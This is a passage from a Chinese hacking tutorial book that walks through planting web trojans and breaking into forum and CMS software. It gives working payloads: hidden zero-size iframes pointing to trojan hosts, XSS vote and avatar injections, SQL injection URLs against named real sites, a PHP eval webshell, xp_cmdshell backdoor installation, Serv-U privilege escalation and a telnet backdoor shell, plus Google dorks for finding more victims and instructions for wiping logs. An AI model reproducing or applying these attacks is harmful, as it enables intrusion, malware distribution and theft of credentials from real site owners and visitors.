此生成器会生成两个文件，第一个文件的主要作用是通过浏览器的类型判断是应该选用 CHM 木马还是 IFRAME 木马，第二个文件就是 IFRAME 溢出木马了。

接着是选择大内存方式还是小内存方式，由于我们要做网页木马，所以选择推荐的“大内存”方式。再下边是选择是否采用 CHM 木马，我们选择使用，先把自己的木马放到 CHM 文件夹中，我使用的文件名是 mm.exe，填写好以后接着输入生成后的 CHM 文件（其实也就是 CHM 木马了），我填写的是 mm.chm。因为我把这个文件上传到我的空间以后，mm.chm 的地址就是 http://zhiyeqianqian.51web.cn/mm.chm，所以存放 chm 文件的地址就应该填写为 zhiyeqianqian.51web.cn/mm.chm，如图 7.7。


图 7.7

最后是对生成的木马是否加密，这些可以自由选择了，单击那个大大的“生成”长条，就会提示我们生成完毕，这时候目录里会多出三个文件：91.htm、92.htm、mm.chm，把它们一起上传到空间上去，http://zhiyeqianqian.51web.cn/91.htm 就是主要木马文件。接下来我们要把它插入别人的网页里。不过这次换个花样，使用 JS 方式。

还是刚才那个网站，我们发现它的 CSS 文件都放在 club\bbs\css 文件夹中，那么我们给它写一个 css 文件进去。

首先使用海阳木马的 FSO 功能新建一个文件，我们给这个 css 文件起名为 title.css，如图 7.8。


图 7.8

接着编辑该 css 文件，内容为：

```javascript
document.write("<iframe src=http://zhiyeqianqian.51web.cn/038.html width=0 height=0></iframe>");
```

接着再编辑其他页面使它们调用这个 CSS 文件，找到任意文件，在合适的位置加如下代码：`<script language=javascript src=./css/title.css></script>`，如图 7.9，这里的 /css/title.css 就是我们刚才写入的 CSS 文件的相对位置。这样别人打开网页后，即使查看源码也没有办法直接发现我们木马的真实地址。


图 7.9

#### 7.1.4 下载者 + 最新免杀网页木马生成器

在上面的几个例子中，我们都使用了小巧的啊啦 QQ 大盗（只有 20 多 K），所以别人中招的时候，不知不觉就下载完成并运行了。可是我们如果想把灰鸽子一类的木马做成网页木马就吓人了，因为鸽子有 300 多 K，即使以 1M 的电信 ADSL 宽带也要下载好几秒才能完成，所以我们必须想办法解决它。

这里提出一个解决办法是，使用一个体积小巧的“下载者”作为木马。当别人浏览网页以后，首先自动下载并运行我们的“下载者”，而该下载者的主要功能则是偷偷地在后台下载并运行我们指定的灰鸽子。由于它在后台下载，所以被发现的几率很小。

打开下载者 HkDown，将指定要下载并运行的程序所在的网址填入 Address 处，再将下载后保存到的地址填入 To Path 中，如图 7.10。


图 7.10

接下来是让下载者插入哪个进程中，与灰鸽子一样，如果插入 IExplore 的话，穿透防火墙的能力会大大增加。最后单击“Build”按钮就会在当前目录下生成一个只有 1.15K 的 Downloader.exe，而它还可以自己再加壳使其变得更小！

把配置好的灰鸽子上传到空间上：http://zhiyeqianqian.51web.cn/gezi.exe，再把 Downloader.exe 改名为 m.exe 覆盖空间上原先的啊啦 QQ 大盗 http://zhiyeqianqian.51web.cn/m.exe，现在我们用最新的免杀网页木马生成器来把它做成网页木马。首先单击浏览按钮找到我们的 Downloader.exe，然后指定我们要存放木马的目录，这里不要写完整的 URL，只写目录就可以了。比如我们要放在 http://zhiyeqianqian.51web.cn/afu.htm，那么就填 http://zhiyeqianqian.51web.cn，选中“是否加密”，如图 7.11，单击生成，这样就会生成 afu.htm 和 afu.gif 两个文件。把它们上传到空间上，诱骗别人访问 http://zhiyeqianqian.51web.cn/afu.htm 就可以了。


图 7.11

### 7.2 跨站攻击

其实要挂马，不一定非得要得到 Webshell 才行，只要有我们可以写入 HTML 代码的地方，我们就可以尝试把网页木马以框架等形式写到网页里，这种方法，叫做跨站。

#### 7.2.1 SOHU 也出低级漏洞

一日清晨醒来，第一件事是打开一些著名的黑客站点，看有没有新的好玩的东西。首先映入眼帘的是“SOHU 也有洞”的爆炸新闻！

打开 SOHU 新开发的 BLOG，弹出一个对话框，随即转入一个电影网站！明眼人一看就知道这是典型的跨站漏洞，被人写入了弹对话框与转向的脚本语句进去，如图 7.12。


图 7.12

将 blog 的地址输进 flashget 中下载回来，用 UE 打开（UE 是一个类似于记事本的文本编辑器），如图 7.13。


图 7.13

图中圈起来的地方正是发表评论的内容！现在明白了吗？评论没有经过任何检查就照原样显示出来了，如果我们把挂马的代码写进去不就……？嘿嘿，今天玩到 SOHU 头上，有意思。昨天网上才公布了一个 MS05-052 的网页木马生成代码，正好我测试 N 次都没成功，现在借 SOHU 来证明一下！

首先自然是生成一个 MS05-052 的网页木马了，这里使用的是在 EST 上得到的一个小工具，ms05052.pl（注：网上的溢出漏洞公布以后，往往都先公布 Perl 源码脚本，而要进行调试则需要自己安装 ActivePerl）。

ms05052.pl 用法是 ms05052.pl http://zhiyeqianqian.51web.cn/m.exe 052.html，如图 7.14。


这样就生成了一个 052.html 文件，把这个文件放到一个免费的空间上去，完整路径是：http://wukong.php2h.com/052.html。现在要开始测试了，在 BLOG.sohu 的首页找到一些 BLOG，进去后，找那些还没有人发表评论的日志（不然有前辈来过挂了网页木马我们自己就中招了），如图 7.15。


我们找到发表评论的地方，将以下代码写入标题中：

```html
<iframe src="http://wukong.php2h.com/052.html" width="0" height="0" frameborder="0"></iframe>
```

然后再在内容中随便填上一两个字，输入验证码点提交。打开这个页面，我们就可以看到马儿的地址出现在了状态栏里！！成功地在 sohu 的网站上挂上了自己的木马，只可惜，当天 sohu 就把漏洞补上了，而我们的木马也始终没有给我递交它们的劳动成果……

#### 7.2.2 Discuz! 论坛头像跨站漏洞

Discuz! 这个论坛大家都熟悉吧？我们亲爱的 X 档案就是使用的这个论坛哦！不过它在头像处可以被写入任意的 HTML 语句，因此我们可以在自己的头像处写入挂马等跨站语句，然后去论坛回帖子或者是发帖子，只要查看了该帖子的人就会浏览你的网页木马哦！

首先使用 Google 搜索关键字：“allinurl: "forumdisplay.php?fid="”，就可以找到很多的 Discuz! 论坛，注册后，必须退出重新登录一次，这样才可以把 Cookie 保存下来，如图 7.16。


图 7.16

现在我们打开 Discuz4.0RC3 头像跨站漏洞利用程序，将论坛地址填入，这里我填写的是 http://www.eegold.com/bbs，单击那个大大的“读取参数”按钮，如图 7.17。


图 7.17

这时候我们可以往头像处填写任意代码了。单击右边的代码助手我们可以轻松地获得几种常见的代码。比如我使用“弹出对话框”按钮后，跨站内容自动出现以下代码：

```html
<script>alert('玄猫啊玄猫，玄猫找漏洞咯!')</script>
```


图 7.18

如果成功的话，很快就会得到提示，并且弹出如图 7.19 所示的对话框。当我们确定它存在漏洞后，可以往里面写入任意内容，比如嵌入一个网页木马。单击插入 iFrame（框架），自动填入以下代码：`<iframe src='' width=0 height=0></iframe>`，在单引号里填入网页木马：http://我的木马地址/muma.html，再提交，我们的头像处就填入了一个网页木马了。


图 7.19

接下来，高唱着“灌水无罪”去把整个论坛大陆统一一下吧！

### 7.2.3 跨站的其它玩法

由于跨站是与 HTML 及 Script 脚本结合得比较紧密的，因此我在这里只介绍了以框架形式挂马的方法。实际上如果在熟悉了 HTML 及 Script 脚本编程以后，我们完全可以写出一些页面，使得管理员查看跨站页面后，把自己的密码告诉我们（Cookies 信息），甚至是直接利用管理员后台的权限把我们也添加为管理员！不过由于这些知识讲起来太复杂，所以我们先留着等以后有机会再慢慢地学习吧。

### 7.3 整站程序漏洞

到此，目前常见的漏洞和入侵方法我们就基本上都已经掌握了！现在要做什么呢？我们知道，网上有很多人都喜欢使用同一套系统，这个系统一旦出问题，我们就可以通过 Google 等搜索引擎找到大量的网站来入侵！所以，充分地掌握大量的整站程序的漏洞也是每个学习黑客技术朋友的必经之路哦！

#### 7.3.1 DVBBS 漏洞回顾

记得在前面我们讲上传漏洞、讲暴库漏洞都是从它开始的吧！动网论坛，“洞”网也。现在它的最新版本已经是 DVBBS 7.1 SP1 了。不过还有很多朋友仍然在使用 DVBBS 7.0 SP2。这个版本的上传、暴库等漏洞已经很少见了，所以我们讲一下它最近出现的几个漏洞。

##### DVBBS 7.0 SP2 提升权限漏洞

动网论坛判断用户是否管理员的时候，会从 UserInfo 字段中读取一个字符串，这个字符串由一系列的值并用“|”符号分隔连接而成。比如“头像图片地址|||EMAIL|||最后登录时间|||用户组（权限）|||”。

那么我们提交头像图片的时候，如果故意把头像图片写成“111.jpg|||1@2.com||2005-6-19 18:05:34|||1|||……”（这里的 1 表示管理员组）。这样，等论坛读取我们的权限的时候，就会认为我们是管理员了。

下面开始实际的入侵，到 Google 搜索关键字：“allinurl: printpage.asp?BoardID="”就可以找到很多 DVBBS 7.0 SP2 的网站（有很多朋友可能会比较习惯地去搜索 powered by dvbbs 7.0 sp2，效果差不多，不过我的意见是，尽量使用自己发现的特殊关键字）。

很快找到这样一个网站：www.sdtj.gov.cn，首先注册一个账号为 hacker，然后，进入用户控制面板的基本资料修改处，这时候打开抓包工具 WSE，进行抓取 Cookies 的准备工作，回到论坛中，单击“更新”按钮。这时候看看 WSE，单击停止抓包的按钮，把其中的 Cookies 部分复制下来，如图 7.20。


图 7.20

打开 zj1244 的提升权限专用工具，把 Cookies 信息填入对应的地方，而地址呢，则是刚才点完更新后，地址栏上显示的东西，如图 7.21。


图 7.21

把这个地址也填进去之后，如图 7.22。提示可能成功咯！


图 7.22

我们打开看看自己的资料，会发现头像处已经是一张不可显示的图片了！重新登录一下，我们看到了只有管理员才能看到的“管理”字样，如图 7.23。


图 7.23

##### recycle.asp 注入漏洞

recycle.asp 是 DVBBS 上的回收站，它存在一个注入漏洞，使得拥有前台管理员权限的用户可以读取数据库中的任意数据（仅用于 Access 版）。

因为这个漏洞必须拥有管理员权限才可以利用，因此我们首先利用前面的漏洞将自己提升为管理员之后，然后再依次照下面的步骤进行。

```
提交 http://www.sdtj.gov.cn/tjbbs/recycle.asp?tablename=Dv_bbs1
union select 1,1,id,1_content,1_addtime,5,6 from dv_log where instr
(1_content,"pass")<>0 union select 11,12,13,14,15,16 from dv_bbs1,
```

结果如图 7.24。


图 7.24

“username2=shijinwen&password2=sqz1122&username1=shijinwen”这是管理员在后台更改密码的时候，被 DVBBS 记录下来的。意思是：将后台管理员用户名改为 shijinwen，密码改为 sqz1122，而前台对应的用户是 shijinwen。

现在我们来猜解 shijinwen 的前台密码，首先找到 shijinwen 的用户 ID。随便找一个他发过的帖子，在用户名上点击，状态栏里就会出现它的 ID 了，如图 7.25。


图 7.25

```
http://www.sdtj.gov.cn/tjbbs/recycle.asp?tablename=Dv_bbs1 union select 1,userid,userpassword,username,5,6 from dv_user where userid=3350 union select 11,12,13,14,15,16 from dv_bbs1
```

接下来提交以上 URL。注意到这里的“userid=3350”，3350 就是刚才得到的 ID 号，到时候做相应的修改就可以了，如图 7.26。出现了用户名与对应的 MD5 密码。


图 7.26

由于大多数安全意识不高的人都喜欢在不同地方使用同一个密码，于是我们拿他的后台密码 `sqz1122` 使用 MD5 加密一下，发现正好跟前台的密码 MD5 散列一样。现在就可以从容地使用真正管理员的身份登录后台了。接着要做的事是拿 WebShell。首先去随便找个版块，选择发表帖子，找到上传文件的地方，把我们的 ASP 木马改名为 `zyqq.jpg`，然后上传上去，如图 7.27。


图 7.27

接着把这个地址记录下来，进入后台，找到备份数据库的位置，填到当前数据库路径处，如图 7.28。


图 7.28

在备份数据库名称里填写 `shell.asp`，然后单击确定，如图 7.29。


图 7.29

提示我们备份成功！现在我们就可以访问 `http://www.sdtj.gov.cn/tjbbs/shell.asp`，得到 WebShell 了，如图 7.30。


图 7.30

> 阿剑剑：“欠钱，等一下，你刚才说这个 `recycle.asp` 只能在 Access 下的 DVBBS 中利用，那我怎么知道人家是 Access 版还是 SQL 版？”
>
> “你访问一下 `admin_index.asp` 这个管理员登录页面就知道了，如图 7.31。”


图 7.31

## DVBBS 7.0 SP2 SQL版固顶帖子漏洞

这个漏洞需要拥有版主以上的权限，否则不能固顶帖子。所以我们使用上面的方法判断对方是 SQL 版的 DVBBS 后，就可以使用这个方法指定任意用户为管理员，或者是增加后台管理员。

我们打开固顶帖漏洞利用工具，如图 7.32。


图 7.32

这里一样需要填入地址和 Cookies 信息，抓取 Cookie 信息的方法大家已经很熟了吧。现在我们就找一个已经固顶过了的帖子，单击右键看属性得到其 URL，填入 `zj1244` 的动网固顶帖利用工具的“地址”处。接下来我们可以选择操作为“提升指定用户为前台管理员”，然后填入该用户的用户名（这里你可以先注册一个用户），然后单击发送，如图 7.33。


图 7.33

再接着把自己提升为后台管理员，我们就可以进入后台了。不过，第一次进入 DVBBS SQL 版后台的朋友，可能会不知道如何获取 WebShell。因为它会提示很多垃圾信息，比如说如何使用 MSSQL 的企业管理器之类的，我们不用理会它，一样去上传一个改名为 `jpg` 或者 `gif` 后的 ASP 木马，记下地址后，我们把下面代码保存为 HTML 文件：

```html
<form action="http://www.gdxjhotel.com/bbs/admin_data.asp?action=RestoreData&act=Restore" method="post">
  <p>已上传文件的位置: <input name="Dbpath" type="text" size="80"></p>
  <p>要复制到的位置: <input name="backpath" type="text" size="80"></p>
  <p><input type="submit" value="提交"></p>
</form>
```

其中 `action` 后面的地址根据实际情况而改，比如如果是黑防的，我们就要写成：`http://www.hacker.com.cn/newbbs/admin_data.asp?action=RestoreData&act=Restore`。打开这个 HTML 文件，如图 7.34。提交后，一样会看到提示我们备份成功，接着访问 `shell.asp`，就会得到 WebShell 了。


图 7.34

##### DVBBS 7.0 SP2 投票挂马漏洞

类似于 Discuz! 论坛，DVBBS 在头像处也存在挂马漏洞。由于手头暂缺利用工具，手工在头像处挂马比较麻烦，因此只介绍一下投票挂马。

在 DVBBS 里注册一个 ID 后，单击“发表投票”，在投票选项里填入以下内容：

```javascript
';document.all.popmenu.innerHTML=document.all.popmenu.innerHTML+String.fromCharCode(60)+'IFRAME frameBorder=0 height=0 marginHeight=0 marginWidth=0 scrolling=no src=http://www.muma.com/muma.html width=0'+String.fromCharCode(62)+String.fromCharCode(60)+'/IFRAME'+String.fromCharCode(62);var vote='1
```

其中 `http://www.muma.com/muma.html` 就是你的网页木马了，如图 7.35。


图 7.35

发表后，我们查看一下帖子，一样从状态栏里可以发现内嵌的网页已经打开了，如图 7.36。


图 7.36

#### 7.3.2 BBSXP 漏洞回顾

BBSXP 是国内除了 DVBBS 外又一比较著名的论坛。现在 BBSXP 官方使用的版本是 5.15 版，而供大家下载的却写着是 5.16，其实只不过是将 5.15 版中出了漏洞的几个文件稍微做了修改而已。所以我们重点讲一下 5.15 版中发生漏洞的地方：`showforum.asp`、`blog.asp`、`usertop.asp` 以及 `manage.asp`。

对于 Access 版，只有 `blog.asp` 和 `usertop.asp` 的注入漏洞可以利用。我们首先来搜索一下 BBSXP 5.15 的懒站长吧……

打开 Google，填入关键字：“by BBSxp 5.15/Licence”，我们随便选择一个论坛，打开后确定它就是 BBSxp 5.15 的（这样搜索到的都是 Access 版，如果要搜 SQL 版的话，关键字要改成 “by BBSxp 5.15 SQL/Licence”）。

把该论坛地址填入 BBSXP 综合利用工具纪念版中，不要带后面的文件名，比如 `http://jpkc.chd.edu.cn/2003/gjwlx/bbsxp/` 就够了，多写一个 `http://jpkc.chd.edu.cn/2003/gjwlx/bbsxp/blog.asp` 反而会出错。首先获取前台管理员的用户名和密码，直接单击发送。暴库结束后，如果成功就会看到结果了，区长的用户名和 MD5 散列密码都出来了，如图 7.37。


将“获得前台管理员用户名和密码”改为“获得后台密码”，我们可以连后台的密码 MD5 散列暴出来，如图 7.38。


图 7.38

现在我们要做的事儿就是拿出 MD5crack 来跑了，当然，前台密码跑不出来没关系，因为我们还可以用 Cookies 欺骗的方式进前台当管理员。而后台密码跑不出来的话，只能说一句：“天涯何处无芳草”了……

下面具体讲一下如何使用 Cookies 欺骗当 BBSXP 的社区区长。利用的工具是桂林老兵的一个 Cookies&Injection 浏览器，看名字就知道专为利用 Cookies 欺骗或者 Cookies 注入而制作的，打开后的界面如图 7.39 所示。


图 7.39

注册一个用户名 `hacker` 登录进去，注意看 Cookies 一栏就已经有了一些数据了。我们现在就把它改一下，单击 Cookies 栏左边那个“设置自定义 Cookies”按钮，这时候 Cookies 一栏就变成可编辑的了。我们只需要更改两个地方，`username` 和 `userpass`。刚才得到的信息是：“区长名:logistics 密码:80367D768322AA6DA77E0520FB1BC7F7”，那么我们就把 `username=hacker` 改为 `username=logistics`，而 `userpass=96E79218965EB72C92A549DD5A330112` 则改成 `userpass=80367D768322AA6DA77E0520FB1BC7F7`。这里一定要注意，不能错一点儿，否则就会提示 `setup.asp` 64 行错误。更改完后回车两下，再单击刷新按钮，如图 7.40。现在我们就是以 `logistics` 的身份登录了，看到那个可爱的“管理”按钮了没有？呵呵……


图 7.40

这时候拿出 MD5crack 跑出的后台密码登录后台就可以了，不过它在备份数据库的时候做了限制，所以类似于 DVBBS SQL 版，上传完我们的图片木马以后，把地址记下来，我们还需要本地构造一个页面，将下面代码保存为 HTML 文件：

```html
<form method="post" action="http://jpkc.chd.edu.cn/2003/gjwlx/bbsxp/admin_fso.asp?menu=bakbf">
<table><tr><td width="30%">数据库路径：</td>
<td width="70%">
<input size="30" name="yf"></td></tr><tr>
<td width="30%">备份的数据库路径：</td>
<td width="70%"><input size="30" name="bf"></td></tr><tr>
<td width="100%" align="center" colspan="2">
<input type="submit" value="备 份" name="Submit1"><br></td></tr>
</table></td></tr></table></form>
```

其中 `action="http://jpkc.chd.edu.cn/2003/gjwlx/bbsxp/admin_fso.asp?menu=bakbf"` 要自己做相应的修改，如图 7.41。


图 7.41

##### BBSXP 5.15 SQL 版漏洞

我们打开 Google 以关键字 “by BBSxp 5.15 SQL/Licence inurl:licence.asp” 来搜索，找到相应版本的网站，任意打开一个，如图 7.42。


图 7.42

现在拿出刚才的 BBSXP 漏洞利用工具，在论坛里找一个版块，右键得到其属性，查看 URL，然后填入利用工具里 SQL 的 `ShowForum.asp` 中相应的位置，我们就可以进行任意操作了。比如增加上传 `asa` 类型的文件，如图 7.43。


图 7.43

注册一个 ID，用户名为 `hacker`，密码为 `111111`。结果登录时提醒说用户未被激活，这难不倒我们，我们直接在下拉框中选择“还原指定用户为小野人”，这样我们的 ID 就激活了！再登录，到发帖子地方去上传一个 ASP 木马（但是要将后缀名改为 `asa`），如图 7.44。


图 7.44

直接点击该链接就可以得到 WebShell 了，打开 `conn.asp` 看看里面的内容，如图 7.45。


图 7.45

竟然是 SA 用户连接！手痒痒了吧？打开“微软数据库查看/操作器”，将连接字符串改为相应的字符：`sql:Provider=SQLOLEDB.1;Server=localhost;User ID=sa;Password=hybbs2005;Database=hybbs;`。

单击提交后，转入 SQL 命令执行及查看，上传一个配置好了的后门 `networks.dll` 到服务器上，然后在 SQL 命令中执行 `exec master..xp_cmdshell "rundll32.exe C:\Inetpub\AdminScripts\networks.dll,install"`，将后门安装成功后，使用连接器连接过去看看，如图 7.46。


图 7.46

我们继续来看一下 BBSXP 在 SQL 版中的另外几个漏洞，只不过因为这几个漏洞是和 `showforum.asp` 几乎一起被公布的。说一句不厚道的话，如果 `showforum.asp` 的漏洞补上了，那么后面几个漏洞也很可能补上了。

首先是 `blog.asp` 的漏洞，由于其 `id` 变量过滤不足，我们可以查询任何数据。首先访问 `http://bbs.yuzi.net/blog.asp?id=1` 来看看是否存在这个日志，当存在的时候，把这个 URL 填入利用工具里，否则请自己注册一个 ID 去发一个日志。

然后呢，因为默认功能是暴指定用户的密码，当然要找社区区长的密码了。我们只需要到 `adminlist.asp` 去看看有哪些人是社区区长就行了，如图 7.47。


图 7.47

然后把社区区长的用户名写到用户名处，单击发送，就开始一位一位地暴该用户的密码散列了，如图 7.48。


图 7.48

这个地方还可以选择暴后台密码，不过对于 SQL 版的 BBSXP 我们没有必要这么做。我们把后台密码改掉就可以了，否则跑 MD5 密码是件很辛苦的事儿。

切换到 SQL 的 `manage.asp` 里，把论坛的 URL 的 `manage.asp` 地址填进目标主机处，还要把刚才获取的账号和密码填入对应的位置。然后任意选一个帖子，找到帖子的 ID，查看属性得到 URL，或者鼠标悬停在帖子上，就会看到类似 `bbsxp/ShowPost.asp?id=952` 的东西，这个 952 就是我们要的数字了。

因为我们注册的用户名为 `hacker`，因此现在我们选择“提升指定用户为管理员”，在指定用户处填写 `hacker`，单击发送，查看 `hacker` 的资料就会发现 `hacker` 已经是社区区长了，如图 7.49。


图 7.49

接下来，再依次执行：更改后台密码为指定用户的密码（后台密码就是 `hacker` 现在使用的密码了），进入后台，进行备份数据库获取 WebShell 后，再将指定用户还原为小野人，恢复后台密码（将从 `hacker` 的个人资料中获取原保存的密码资料），然后删除指定用户的日志（把日志中和 `hacker` 有关的都删除），你甚至可以将 `hacker` 这个用户都删除。

#### 7.3.3 phpwindblog 任意更改密码漏洞

phpwindblog 是一款用得很多的程序，最近爆出了可以任意更改他人密码的漏洞，我们一起来看看如何利用吧！

到 Google 搜索关键字 `allinurl:blog.php?uid_1.html`，找到目标以后打开，如图 7.50，在图中标出的位置可以知道管理员的用户名。


图 7.50

注册一个 ID，登录后，在地址栏手工输入 `user_index.php?action=../admin/manager&job=submit&username=admin&password=666666&check_pwd=666666`，这里的 `username=admin` 相应地改为你找到的管理员名，而后面的 `666666` 则是你想要更改的密码。这样提交以后，`admin` 用户的密码就被改为 `666666` 了，如图 7.51。


图 7.51

接着我们找到 `admin.php` 登录后台，进去后直接翻到“网站风格设置”，在里面加上以下代码，需要在顶部写，如图 7.52，代码如下：


图 7.52

```php
<style type="text/css">
</style>
<!----
EOT;
?>-->
<?php @eval($_POST[cmd]);?>
<!--
<?php
print<<<EOT
-->
```

现在我们打开 Lanker 的一句话木马客户端，把这个 Blog 的 `index.php` 路径填入，选择上传文件，找到一个 phpspy2006 上传，单击提交后，如图 7.53。注意页面最上方的 `OK` 两个字母表示我们上传成功！


图 7.53

## Easy Hacker

访问我们的 PHP 木马，http://www.sghot.com/blog/phpspy_2006.php，如图 7.54。


图 7.54

#### 7.3.4 风讯系统注入漏洞 + 不常见的 CFS 加密入侵实例

欠钱正给阿剑剑讲着课，忽然 QQ 上的好友冰雪黑鹰发来一个 URL，告诉他可以注入，于是我们就开始了这次入侵之旅。

地址是 http://www.zizhuyou.net/sendmail.asp?filename=111024，打开它，手工在地址后面加上“' and '1'='1”与“' and '1'='2”，发现前者正常返回页面，而后者提示找不到页面，如图 7.55、图 7.56。


图 7.55


图 7.56

于是确定它确实可以注入，我打开 HDSI 3.0，将该 URL 填入“注射地址”，单击“开始”按钮检测它，结果提示没发现漏洞，于是我们从图 7.55 中出现而图 7.56 中没有出现的内容里随便挑几个字出来，在 HDSI 中勾上“使用关键字”，将关键字设为：“将本文”。重新单击“开始”按钮进行检测，结果如图 7.57。


图 7.57

很快就发现漏洞了，那么我们接着要做的就是依次猜解表名、列名与隐私数据了（这里提示的 SA 权限实际上是假的，所以我们不能执行 CMD 命令）。

admin 特别显眼，选中它，单击中间那个“猜解”得到它的所有列名，发现里面有 username 与 userpass 两个列，我们最想要的也就是它了！将它们选中，再次猜解，很快得到结果了，如图 7.58。


图 7.58

看到密码是一长串的十六进制东西：DD8768C74EB680D98864D4813738F，唉，现在的系统都很喜欢使用 MD5 加密，不过我们不担心，打开 http://xmd5.org/index_cn.htm 进行在线破解它试试（所谓的在线破解其实是该站管理员收集了很多常见的密码存入数据库中，然后依次对比，若找到的话会提示成功，否则失败。对我们最大的好处是我们不需要去做字典了，而且也不消耗我们电脑的资源）。

把那一串东西复制到里面，单击“给我转”，如图 7.59。


结果提示我“must 16 or 32”，意思是说我的字符不够 32 位，于是仔细一数，发现确实如此，只有 30 位，这是怎么回事？

使用 NBSI 与 HDSI 反复验证了几趟以后，终于确认了这个结果，难道说这套系统没有使用 MD5 加密？经过一个下午的痴呆幻想与 N 种推测以后，终于被我们发现了，它使用的是 CFS 加密算法（我们去官方网站上下了一套源码，随便看了一下，发现里面有一个 Enpas.asp，再经过百度搜索确认这是 CFS 算法，当然，其中的过程是很辛苦滴，借几个字安慰一下自己）。

通过百度的资料我们知道 CFS 算法也是一种不可逆的算法，那么我们要通过它找出明文是不大容易了，不过我们遇到的是 SQL 版的系统，那么我们完全可以自己把 123456 加密成 CFS 散列，然后将数据库中的密码改为该散列。

首先在百度上搜索，找到一个 CFS 加密解密工具，如图 7.60。


图 7.60

我们选中加密以后，把 123456 写到要加密的明文中，单击“加密”按钮，就得到了加密以后的 CFS 结果：A51743627D9238C3997BABD76D7D75。

在 HDSI 中，切换到高级命令选项中，在右边的选项中将命令改为“SQL 命令”，然后填入 SQL 语句并执行，如图 7.61。

```sql
update admin set userpass='A51743627D9238C3997BABD76D7D75';
```


图 7.61

进入后台登录页面 http://www.zizhuyou.net/login.asp，用户名输入 admin，密码为 123456，顺利进入后台，如图 7.62。


图 7.62

进入后台以后，就要想办法拿 Webshell 了！单击“进入管理中心”进行管理，打开“系统管理”中的“参数设置”，出现如图 7.63 所示的界面。


图 7.63

在“上传文件类型”中添加 cer 类型，然后“提交”修改。随便找个发布新闻的地方，上传文件时，将一个 ASP 木马改扩展名为 cer 后，上传上去。得到地址为“[upload=cer]../Files/upfile/20051023205548827.cer[/upload]”，访问它看看，如图 7.64、图 7.65，成功得到了 Webshell。


图 7.64


图 7.65

接下来，查看 conn.asp 才发现连接的数据库并非 SA，难怪执行不了什么命令，不过查看服务时发现有 Serv-U 服务存在，那么老古董的提权方法，今天一样派上了用场！打开 WScript 命令执行器，随便执行了个命令，提示我“拒绝访问。缺少对象。错误：文件无法被打开。”，一般这样的提示都是管理员设置了 cmd.exe 的访问权限，那么我们自己上传一个 cmd.exe 上去，把“路径”处改为我们 cmd.exe 的完整路径，就可以执行命令了。这时候再上传一个 servu 本地提权的小工具：servuloc.exe。在命令处写入：“D:\wwwroot\servuloc.exe "net user test /add"”，执行结果如图 7.66，成功地添加了一个用户 test（这一步只是为了确认我们是否可以成功以系统权限执行命令而已）。


图 7.66

现在把该用户再删掉，配置一个随意门 V1.0 放到 c:\perl\net.dll 中，使用命令：“D:\wwwroot\servuloc.exe "rundll32.exe c:\perl\net.dll,install"”，安装成功后，我们就可以使用随意门连接器来连接了。

使用 ping www.zizhuyou.net，得到其 IP 地址为 61.145.163.73，所以我们连接命令为 telnet 61.145.163.73 80 shmily，其中 shmily 为我设置的验证码，不一会就得到了 shell，如图 7.67。


图 7.67

好了，这里先告一段落，我们做事情要干脆利落，所以别忘了，我们改了管理员的密码，管理员自己就进不去后台了，这样太招摇！回到 HDSI 中，使用“update admin set userpass='3DD8768C74EB680D98864D4813738F1'”将密码恢复为原来的状态！在 Webshell 中删除我们上传上去的一切东西，在随意门中将日志删除，此次入侵告一段落了。可是，我们就这样算了吗？NONONO！！

这个系统存在漏洞，我们要抓住它来找更多的肉鸡才对啊！到 Google 去搜索关键字：“allinurl:sendmail.asp?filename=”，嘿嘿，接下来不过是一个重复的动作而已，肉鸡乖乖送上门……

## 尾声

阿剑剑经过一段时间的学习，终于把目前常见的入侵手法都学了个遍，自认为小有所成，准备出师。临走前，欠钱赠与阿剑剑三个香囊，并叮嘱阿剑剑在黑客技术上遇到瓶颈时方可打开。没想到阿剑剑当场就打开并大声地念了出来：

- 1. 黑客技术远远不止我教你的这些，当你认为自己什么都会了的时候，你有没有想过，有哪一样入侵的原理你完全明白了？你可以自己发现漏洞了吗？
- 2. 黑客技术绝对不应该只是拿来黑站和挂马盗号的，学黑客技术，首先要学会做人，这一点我没办法教你，但是我希望你自己认识到这一点。
- 3. 送你个网站，它包含了很多漏洞的资料，可以随意搜索，比 Google 等搜索引擎更专业，只是资料有时候稍微嫌少一点，http://demo.cnbct.org。


图 7.68

我们在里面搜索 DVBBS，结果如图 7.68。里面对漏洞的描述与相关链接绝对令你满意。希望本书对那些徘徊于黑客技术门槛而不得入内的朋友有所帮助。

## 附录一 CMD 简介与常用命令

在学习黑客技术的时候，我们会发现有非常多的事情必须在 cmd 下完成，还有很多工具如果双击运行的话，会只闪出一个黑东西，然后就不见了，这是因为那些工具只能工作在 CMD 中。所以，如果你对 CMD 还不够了解的话，不妨跟我一起来认识一下它吧。

CMD 全称为命令提示符，在 Windows 2000 及以上的系统中才会有它，我们可以按下 Win+R 组合键，输入 cmd 回车打开它，也可以依次展开“开始 / 程序 / 附件 / 命令提示符”打开它。如果是 Windows 9x 的系统，有一个和 CMD 比较类似的东西叫做 command，同样按下 Win+R 输入 command 就可以打开。

也许有很多朋友不理解，这个黑乎乎的东西和 DOS 有什么不同。我们可以从字面意思上来理解，DOS 的全称是磁盘操作系统，它是在 Windows 出来之前，微软开发的一个系统，与 Windows、Linux 同属于操作系统。而 CMD 则只是 Windows 的一个小工具，用于模拟 DOS（当然这个说法也不完全正确），实现在非 GUI 界面下也能够很好地管理电脑。

打开 CMD 以后，我们会看到如图 8.1 所示的界面。


图 8.1


D:\Documents and Settings\Administrator 是指用户的默认工作目录，我们所有的操作默认都是针对这个目录的。假设我们有一个黑客工具 mt.exe 已经下载下来放到了 I:\hack\tools\mt.exe，那么我们要运行 mt.exe，可以有以下两种方法：输入 I:\hack\tools\mt.exe，或者首先输入 I:，这样会使当前目录切换到 I 盘，然后再输入 cd hack、cd tools，现在当前目录就是 I:\hack\tools\ 了，输入 mt.exe 就可以成功运行了。

### 菜鸟最喜欢问的问题

你在文章里说，使用 nc.exe 监听端口，输入 nc -vv -l -p 1234，可是我执行后它提示我这不是内部命令什么的，这是怎么回事？

答：我们使用的 nc.exe 并不是系统自带的命令，它是一个黑客工具，首先把它下载到本机硬盘中。然后，你需要在 CMD 下切换到该工具存放的目录去执行上面的命令，或者是用完整路径来执行，比如：  
I:\tools\nc.exe -vv -l -p 1234。

问：我现在已经在 I:\hack\tools\ 目录下了，我想把当前目录回到 I 盘根目录怎么做啊？

答：cd \，或者是连续两次 cd ..。

### 入侵常用命令

#### NET

